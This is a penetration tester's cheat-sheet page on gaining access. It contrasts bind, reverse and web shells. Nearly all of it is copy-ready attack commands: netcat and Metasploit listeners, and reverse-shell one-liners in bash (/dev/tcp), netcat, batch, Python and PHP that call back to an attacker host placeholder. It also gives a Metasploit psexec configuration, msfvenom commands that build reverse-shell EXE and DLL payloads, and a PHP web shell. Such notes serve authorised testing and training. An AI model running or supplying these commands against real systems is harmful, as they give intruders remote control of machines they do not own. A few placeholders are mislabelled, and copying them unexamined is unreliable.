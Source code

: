 ```yaml
---
title: 3 – Reverse Shell
summary: Gaining Access step – a note for obtaining a reverse shell on the target.
description: Gaining Access step – a note for obtaining a reverse shell on the target.
---
```


# Reverse vs Bind vs Web Shell

---

### Bind Shell

**The code is used to start a listener attached to a shell on the target.** 
Then we can connect to the port to obtain remote code execution. 
This has the advantage of not requiring any configuration on our network, but may be prevented by firewalls protecting the target.

### Reverse Shell

**The code makes the target to connects back to the attacker computer.** 
Reverse shells are a good way to bypass firewalls. The drawback is that we need to configure our network to accept the shell: we need to set up an handler.

### Web Shell

**The code allows the attacker to send shell commands to the target server via a web page hosted on this server.**

# Handlers

---

### NETCAT


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

# Reverse Shell

---

### Ressources

[PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

[Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

### NETCAT


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

---

### BASH


 > 
 > **<font color=red>bash -i >& /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1</font>**</br>
 > Reverse Shell.

---

### BAT


 > 
 > **<font color=red>@echo off nc.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>-e cmd.exe</font>**</br>
 > Reverse Shell.

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("</font>\[ATTACKER_IP\]<font color=red>",</font>\[ATTACKER_PORT\]<font color=red>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</font>**</br>
 > Reverse Shell.

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>exec("/bin/bash -c 'bash -i > /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1'");</font>**</br>
 > **<font color=red>?\></font>**</br>
 > Very simple reverse shell.

Fancy reverse shell:
**[Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**
Location on Kali: <font color=lightblue>/usr/share/webshells/php/php-reverse-shell.php</font>

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

---

### MSVENOM (Reverse Shell Generator)


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.

# Web Shell

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>system($\_GET\["</font>cmd<font color=red>"\]);</font>**</br>
 > **<font color=red>?></font>**</br>
 > Web shell. After upload, go to http://\[TARGET_IP\]/myWebShell.php?cmd=whoami
